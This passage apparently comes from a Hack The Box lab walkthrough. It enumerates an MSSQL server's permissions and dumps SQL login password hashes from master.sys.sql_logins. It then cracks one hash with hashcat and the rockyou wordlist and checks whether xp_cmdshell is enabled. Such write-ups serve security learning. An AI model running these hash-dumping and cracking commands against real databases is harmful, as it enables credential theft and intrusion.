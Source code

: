 ```py
    for query in queries:
      print(f'\n#-- {query}\n')
      cursor.execute(query)
      print(cursor.fetchall())
```

![5180850575502.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932919370/TbjkOyrU-.png align="left")

* [system\_user](https://docs.microsoft.com/en-us/sql/t-sql/functions/system-user-transact-sql?view=sql-server-ver15#a-using-system_user-to-return-the-current-system-user-name)
    
* [user\_name()](https://www.w3schools.com/sql/func_sqlserver_user_name.asp)
    
* [Double Dot Notation](https://stackoverflow.com/a/34786151)
    

Let's see what Server-scoped permission current user have

```sql
SELECT permission_name FROM master..fn_my_permissions(null, 'SERVER')
```

![2376129911253.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932934399/8eWiPgEM8.png align="left")

Well, it seems like we have a pretty wide permission set. For example, we can dump login hashes for the logins because of the `CONTROL SERVER`.

```sql
SELECT name + ':' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

![3770297859657.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932945670/Vq-WkDwR3.png align="left")

Let's run the `hashcat` in the background:

```sh
hashcat -m 1731 -a 0 -O --status --session=archtype 0x0200100bac9600580c3c299ed7ff81d77bcbe50b830ca60306d7a5e5bf34a5c6be0d895247952bfff5708764033a797e8ca4f2004797203d7ee5c794d655c3218a0b13a3ce63 /usr/wl/rockyou.txt
```

> Rule of thumb for HTB boxes is - if you can't crack the password using rockyou wordlist - this is probably not a hash you are looking for.

Now, what I'm interested in (and probably I should check that right away) is if `sql_svc` can execute system commands.

```sql
SELECT CONVERT(INT, ISNULL(value, value_in_use)) AS config_value FROM sys.configurations WHERE name = 'xp_cmdshell'
```

![941140546299.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932959096/MoPcDfWAu.png align="left")

> The Windows process spawned by xp\_cmdshell has the same security rights as the SQL Server service account

* [xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql)
    